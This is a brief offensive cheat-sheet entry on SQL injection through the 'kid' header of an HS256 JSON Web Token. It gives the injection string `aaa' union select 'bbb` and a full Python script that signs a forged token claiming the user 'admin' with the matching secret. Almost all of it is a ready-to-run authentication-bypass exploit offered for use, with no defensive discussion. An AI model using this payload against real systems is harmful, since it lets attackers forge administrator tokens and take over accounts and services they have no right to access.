 # SQL injection in HS256 encoded JWT KID

If a JWT uses the algorithm "HS256" and has a key identifier ("kid") that looks like a  
database identifier, attempt an SQL injection:  

```
{
  "alg":"HS256",
  "kid":"key1",
  "typ":"JWT"
}
```

Change the "kid" value to an injection: `aaa' union select 'bbb`  
and set the secret to be `bbb`.  
Hopefully the server checks for the secret to be the union selected value.  

Full script:  

```python3
# python3
import jwt

# Fill in the header
header = {
        "typ":"JWT",
        "alg":"HS256",
        "kid":"aaa' union select 'bbb"
}

# Add your secret key
key = "bbb"

# Add the payload
payload = {
        "user":"admin",
}

print(jwt.encode(payload, key, algorithm="HS256", headers=header))
```
